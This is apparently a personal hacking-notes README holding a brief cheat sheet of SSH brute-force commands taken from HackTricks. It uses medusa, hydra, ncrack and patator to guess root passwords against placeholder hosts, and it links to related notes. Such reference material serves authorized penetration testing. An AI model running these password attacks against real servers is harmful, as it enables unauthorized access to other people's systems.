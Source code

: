 # SSH brute force command shortlist from hacktricks
```bash
medusa -u root -P 500-worst-passwords.txt -h <IP> -M ssh
hydra -l root -P passwords.txt [-t 32] <IP> ssh
ncrack -p 22 --user root -P passwords.txt <IP> [-T 5]
patator ssh_login host=<ip> port=22 user=root 0=/path/passwords.txt password=FILE0 -x ignore:mesg='Authentication failed'
```

` zet/20221003150345/README.md `

# Related

- [20221003150346](/zet/20221003150346/README.md) SSH brute force
- ~/kb/hacking/misc/bruteforcing-tools.md

Tags:

    #hacking #bruteforcing 
